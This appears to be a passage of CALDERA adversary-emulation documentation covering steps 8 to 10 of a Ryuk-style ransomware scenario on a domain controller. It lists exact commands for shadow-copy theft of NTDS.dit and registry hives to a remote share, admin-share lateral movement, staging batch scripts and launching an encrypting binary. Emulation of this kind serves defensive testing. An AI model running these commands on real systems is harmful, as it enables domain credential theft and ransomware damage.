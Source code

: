 - Agent-server communication will be in unencrypted by default unless CALDERA is run using the `ssl` plugin and is listening on an HTTPS socket.
- Note that the agent will connect to the C2 server using the pre-configured port from the CALDERA configuration file (8888 by default), and so the port numbers may differ from what was used in evals.
- The agent executable running on the domain controller will spawn a separate PowerShell process to perform registry persistence.
- The agent executable running on the domain controller will spawn a separate PowerShell process to execute adfind.

## Step 8
- The agent on the domain controller will spawn a separate PowerShell process to run the following via separate `cmd` process:
    - `cmd /c "vssadmin.exe create shadow /for=C:"`
- The shadow copy path will typically look like `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`, but the final number may differ depending
on the environment and if previous shadow copies have been created. To account for differing names, CALDERA will parse out the shadow copy path and save it for the upcoming exfiltration.
- The agent on the domain controller will spawn a separate PowerShell process to run the following via separate `cmd` processes:
    - `cmd /c "copy #{vssadmin.shadow_copy.name}\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit"`
    - `cmd /c "copy #{vssadmin.shadow_copy.name}\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE"`
    - Note that `#{vssadmin.shadow_copy.name}` represents the saved shadow copy path (e.g `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`)
- The agent on the domain controller will spawn a separate PowerShell process to run the following via separate `cmd` process:
    - `cmd /c "reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE"`

## Step 9
- The agent on the domain controller will spawn a separate PowerShell process to run the following via separate `cmd` processes:
    - `cmd /c "net use Z: \\#{second.target.host}\C$"`, where `#{second.target.host}` is the IP address or hostname of the first lateral movement target.
    - `cmd /c "copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat"`
- The agent on the domain controller will spawn a separate PowerShell process to run the following via a separate `cmd` process:
    - `cmd /c "C:\Users\Public\kill.bat" 2> $null; exit 0;`
    - Due to the way CALDERA handles commands with error messages and non-0 exit codes, the above PowerShell command has to suppress error output and force exit with the successful (0) exit code.
- The agent on the domain controller will spawn a separate PowerShell process to run the following via a separate `cmd` process:
    - `cmd /c "copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat"`
- The agent on the domain controller will spawn a separate PowerShell process to run the following via a separate `cmd` process:
    - `cmd /c "C:\Users\Public\window.bat" 2> $null; exit 0;`
    - Due to the way CALDERA handles commands with error messages and non-0 exit codes, the above PowerShell command has to suppress error output and force exit with the successful (0) exit code.

## Step 10
- The agent on the domain controller will spawn a separate PowerShell process to run the following via a separate `cmd` process:
    - `cmd /c "copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe"`
- The agent on the domain controller will spawn a separate PowerShell process to do the following:
    - Start a background notepad process via: `Start-Process C:\Windows\System32\notepad.exe;`
    - Run ryuk.exe via separate cmd process: `cmd /c "C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe";`
